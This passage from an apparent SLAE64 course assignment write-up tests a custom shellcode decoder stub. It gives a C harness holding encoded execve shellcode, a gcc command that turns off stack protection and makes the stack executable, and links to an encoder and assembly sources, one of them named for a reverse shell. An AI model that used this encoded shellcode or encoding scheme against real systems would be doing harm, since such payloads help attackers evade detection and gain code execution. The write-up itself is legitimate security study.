 ### Testing the Decoder Stub
---
Using the `shellcode.c` template, the generated shellcode needs to be executed and for that, it's placed into the `code[]` string on the file. This file can be found on the [shellcode.c](https://github.com/galminyana/SLAE64/blob/main/Assignment04/shellcode.c) at the Assignment [GitHub Repo](https://github.com/galminyana/SLAE64/blob/main/Assignment04/):
```c
#include <stdio.h>
#include <string.h>

unsigned char code[]= \
"\xeb\x27\x5e\x56\x5b\x6a\x20\x59\x80\x3e\x19\x7c\x05\x80\x2e\x19"
"\xeb\x03\x80\x06\xe7\x48\xff\xc6\xe2\xee\x53\x5e\x6a\x20\x59\xc0"
"\x0e\x03\x48\xff\xc6\xe2\xf8\xff\xe3\xe8\xd4\xff\xff\xff\x5b\xa2"
"\x1f\x9b\x5b\xf6\x92\x2c\x64\x8c\x92\x92\xb4\x5c\xb3\x5b\x65\x58"
"\x9b\x5b\x65\x30\xd3\x5b\x65\x50\x5b\x35\x1f\xf2\x91\x41";

void main()
{
	printf("ShellCode Lenght: %d\n", strlen(code));
	int (*ret)() = (int(*)())code;
	ret();
}
```
Now it can be compiled with `gcc`:
```bash
gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
```
The resulting file is the one to execute, that doing it, the result is the expected:
<img src="https://galminyana.github.io/img/A04_Results_01.png" width="75%" height="75%">

### GitHub Repo Files
---
The [GitHub Repo](https://github.com/galminyana/SLAE64/tree/main/Assignment04) for this assignment contains the following files:

- [Encoder.c](https://github.com/galminyana/SLAE64/blob/main/Assignment04/Encoder.c) : This C file is the implementation of the Encoder Scheme. Prints out a encoded shellcode.
- [Decode-Execve-Stack.nasm](https://github.com/galminyana/SLAE64/blob/main/Assignment04/Decode-Execve-Stack.nasm) : This is the NULL free code for the Egg Hunter.
- [Execve-Stack.nasm](https://github.com/galminyana/SLAE64/blob/main/Assignment4/ReverseShell-ExecveStack_V2.nasm) : This is the code for the shellcode to use in the PoC.
- [shellcode.c](https://github.com/galminyana/SLAE64/blob/main/Assignment04/shellcode.c) : The C template with the [Decode-Execve-Stack.nasm](https://github.com/galminyana/SLAE64/blob/main/Assignment04/Decode-Execve-Stack.nasm), ready to compile and execute


